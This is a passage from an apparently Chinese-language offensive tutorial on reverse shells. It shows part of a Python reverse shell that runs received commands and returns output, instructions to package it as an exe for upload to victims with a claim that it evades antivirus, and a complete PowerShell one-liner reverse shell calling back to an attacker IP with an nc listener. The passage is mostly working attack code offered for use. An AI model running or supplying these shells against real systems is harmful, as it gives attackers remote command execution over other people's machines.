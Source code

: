 ```python
    wlist = []
    elist = [shell]
    while True:
        shell.send("cmd:")
        rs,ws,es = select.select(rlist,wlist,wlist)
        for sockfd in rs:
            if sockfd == shell:
                command = shell.recv(1024)
                if command == 'exit':
                    shell.close()
                    break
                result, error = subprocess.Popen(command,shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE).communicate()
                shell.sendall(result.decode("GB2312").encode("UTF-8"))

# 主函数运行
def run():
    if len(sys.argv)<3:
        print('Usage: python reverse.py [IP] [PORT]')
    else:
        url = sys.argv[1]
        port = int(sys.argv[2])
        ReserveConnect(url,port)

if __name__ == '__main__':
    run()
```

考虑实战中可能没有python环境
可以先在本地上使用pyinstaller将改文件打包为exe文件，实战中直接上传exe运行即可

```python
pythinstaller -Fw  reverse.py
```

被攻击端运行命令

```python
reverse.exe 192.168.203.140 4455
```

攻击端用nc监听，即可反弹cmd。实际测试bypass av效果也比较好

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/1734768-2c2296daae714cb0.webp)

#### 自定义powershell函数反弹shell

利用powershell创建一个Net.Sockets.TCPClient对象，通过Socket反弹tcp shell

```powershell
# 攻击者(192.168.159.134) 开启监听 
nc -lvp 6666

# 目标机执行 
powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('192.168.159.134',6666);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
